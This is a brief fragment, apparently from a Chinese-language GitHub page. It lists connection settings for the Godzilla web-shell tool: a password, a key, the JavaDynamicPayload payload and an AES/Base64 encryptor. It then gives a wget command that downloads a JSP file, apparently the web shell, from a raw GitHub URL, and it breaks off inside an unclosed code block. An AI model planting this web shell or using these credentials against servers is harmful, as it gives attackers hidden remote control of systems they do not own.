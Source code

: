 ### 连接方式
Godzilla连接配置:
密码:Tas9er 密钥:0WKj6wD 有效载荷:JavaDynamicPayload 加密器:JAVA_AES_BASE64

```
wget https://raw.githubusercontent.com/kd6379/test/refs/heads/main/test1.jsp

